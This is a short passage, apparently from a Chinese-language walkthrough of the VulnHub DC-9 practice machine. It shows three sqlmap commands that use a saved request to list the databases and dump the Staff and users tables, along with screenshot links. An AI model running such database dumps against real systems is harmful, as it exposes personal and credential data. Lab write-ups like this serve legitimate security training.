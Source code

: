 运气挺好,直接拖库
```bash
sqlmap -r 1.txt --dbs
sqlmap -r 1.txt -D Staff --dump
sqlmap -r 1.txt -D users --dump
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC9/5.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC9/6.png)
